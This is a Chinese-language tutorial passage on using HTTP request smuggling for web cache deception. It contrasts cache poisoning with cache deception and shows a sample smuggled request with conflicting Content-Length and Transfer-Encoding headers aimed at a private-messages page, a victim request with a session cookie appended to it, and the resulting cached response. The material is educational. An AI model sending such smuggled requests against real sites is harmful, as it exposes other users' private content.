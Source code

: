 
## 利用 HTTP 请求走私进行 web cache poisoning

另一种攻击变体就是利用 HTTP 请求走私去进行 web cache 欺骗。这与 web cache 投毒的方式类似，但目的不同。

web cache poisoning（缓存中毒） 和 web cache deception（缓存欺骗） 有什么区别？
- 对于 web cache poisoning（缓存中毒），攻击者会使应用程序在缓存中存储一些恶意内容，这些内容将从缓存提供给其他用户。
- 对于 web cache deception（缓存欺骗），攻击者使应用程序在缓存中存储属于另一个用户的某些敏感内容，然后攻击者从缓存中检索这些内容。

这种攻击中，攻击者发起一个返回用户特定敏感内容的走私请求。例如：

<code>
    <span style="color:blue">
        POST / HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Length: 43<br>
        Transfer-Encoding: chunked<br>
        <br>
        0<br>
    </span>
    <br>
    <span style="color:orange">
        GET /private/messages HTTP/1.1<br>
        Foo: X
    </span>
</code>

来自另一个用户的请求被后端服务器被附加到走私请求后，包括会话 cookie 和其他标头。例如：

<code>
    <span style="color:orange">
        GET /private/messages HTTP/1.1<br>
        Foo: X
    </span>
    <span style="color:green">
        GET /static/some-image.png HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z<br>
        ...
    </span>
</code>

后端服务器以正常方式响应此请求。这个请求是用来获取用户的私人消息的，且会在受害用户会话的上下文中被正常处理。前端服务器根据第二个请求中的 URL 即 /static/some-image.png 缓存了此响应：
```
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

然后，攻击者访问静态 URL，并接收从缓存返回的敏感内容。

这里的一个重要警告是，攻击者不知道敏感内容将会缓存到哪个 URL 地址，因为这个 URL 地址是受害者用户在走私请求生效时恰巧碰到的。攻击者可能需要获取大量静态 URL 来发现捕获的内容。
